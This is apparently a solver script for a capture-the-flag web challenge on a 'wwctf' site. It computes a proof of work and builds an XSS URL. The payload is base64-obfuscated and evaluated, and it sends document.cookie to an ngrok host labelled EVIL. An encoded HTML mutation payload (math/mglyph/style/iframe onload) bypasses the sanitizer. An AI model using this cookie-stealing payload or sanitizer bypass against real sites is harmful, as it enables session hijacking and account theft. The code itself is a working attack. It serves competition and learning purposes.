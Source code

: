 ```python:solver.py
def proof_of_work(message):
    prefix = '0'*6
    nonce = 0
    num_processes = 1
    chunk_size = 1000000
    start_time = time.time()
    
    with Pool(processes=num_processes) as pool:
        while True:
            tasks = [
                (message, nonce + i * chunk_size, nonce + (i + 1) * chunk_size, prefix)
                for i in range(num_processes)
            ]
            results = pool.map(find_nonce, tasks)
            
            for result in results:
                if result is not None:
                    end_time = time.time()
                    nonce = result
                    print(f'Time taken: {end_time - start_time} seconds')
                    return nonce

            nonce += num_processes * chunk_size

URL = "https://saas.wwctf.com"
URL = "http://localhost/"
EVIL = "https://tchenio.ngrok.io/"

s = requests.session()
r = s.get(URL + "api/report")
data = re.findall(r'data = "(.+)"', r.text)[0]
nonce = proof_of_work(data)

payload = f"document.location.assign('{EVIL}'+document.cookie)"
payload = f"eval(atob(/{b64encode(payload.encode()).decode()}/.toString().slice(1,-1)))"

url = f"https://saas.wwctf%2ecom/?x=*/{payload}//&html=PG1hdGg%2BPG1pPjx0YWJsZT48bWdseXBoPjxzdHlsZT48bWk%2BPGlmcmFtZSBvbmxvYWQ9J2V2YWwoIi8qIitsb2NhdGlvbiknPg%3D%3D"

# botの報告は多分ドメイン指定できる環境じゃないと動かない

# r = s.post(URL + "api/report", json={
#     "data": data,
#     "nonce": nonce,
#     "urlToVisit": url,
#     "secretKey": "secret"
# })

# print(r.text)
print(url)
```